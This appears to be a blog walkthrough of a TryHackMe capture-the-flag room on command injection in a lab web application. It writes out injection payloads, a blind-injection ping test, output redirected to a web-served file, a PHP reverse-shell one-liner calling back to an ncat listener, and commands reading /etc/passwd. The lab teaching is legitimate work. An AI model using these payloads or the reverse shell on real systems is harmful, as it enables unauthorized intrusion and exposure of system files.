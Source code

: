 ```yaml
---
layout: post
title: Injection – Try Hack Me
subtitle: Walkthrough
tags: [Command,Injection,Webapp]
---
```


In this box you will learn about command injection from a blind and active perspective.

[Challenge](https://tryhackme.com/room/injection)

## Task 1

Initiate the VPN connection and deploy the machine


Add the IP address of our machine to the /etc/hosts

~~~
echo 10.10.45.107 injection >> /etc/hosts
~~~

## Task 2 → An Introduction To Command Injection

Head over to http://injection/ and mess around with the web application.
Here are some common command injection payloads try them out.

~~~
; ls
&& ls
| ls
|| ls 
~~~

## Task 3 → Blind Command Injection

From the previous task you might have noticed that when you supply an existing user concatenated with a command injection payload we get a successful response. 
Such as:
~~~
root; ls
~~~

![root;ls](/img/2020-07-24-Injection/root-ls.png)

Since we don't see any output, we might think that there is a blind command injection. To check this, let's ping the machine and see if the responses is delayed.

~~~
root & ping -c 10 <Machine-IP>
~~~

Since the response takes a while, it's a good indication that our assumption was correct.
Let's try to view the response. We can try to redirect the output of a command to a file. Let's try 'index.php'.

~~~
root;uname -r > tmp.php
~~~
Heading over to 'http://injection/tmp.php' we can see the output of our payload.

![uname](/img/2020-07-24-Injection/uname.png)

Next, enter the username asked in the web application and check the message displayed. 
By now you probably noticed that an existing username will display 'Success' on the other hand a user that does not exits will display 'Error'.

## Task 4 → Active Command Injection

In this task we are given an interactive shell. Head over to 'http://injection/evilshell.php'.
Run the 'ls' command to see the content of the current directory.

![ls](/img/2020-07-24-Injection/ls.png)

For the rest of this box, let's get a reverse shell, in order to easily interpret the output.
On your machine run:

~~~
ncat -l -p 1337
~~~

On our interactive shell execute: 10.9.2.107
~~~
php -r '$sock=fsockopen("<Your_IP>",1337);exec("/bin/sh -i <&3 >&3 2>&3");'
~~~
You can find your IP on this link https://tryhackme.com/access or run 'ifconfig' and check the IP on the tun0 interface.

The answer to the next questions can be found be running the following commands.

~~~
#2 cat /etc/passwd
#3 whoami
#4 cat /etc/passwd | grep www-data
#5 lsb_release -a
#6 cat /etc/update-motd.d/00-header
~~~

## Task 5 → Get The Flag!

Usually the name of the flag file is 'flag.txt', so let's search for it.

~~~
find / -name flag.txt 2>/dev/null 
~~~
Simply use cat and you are done.
Hope you enjoyed this guide.

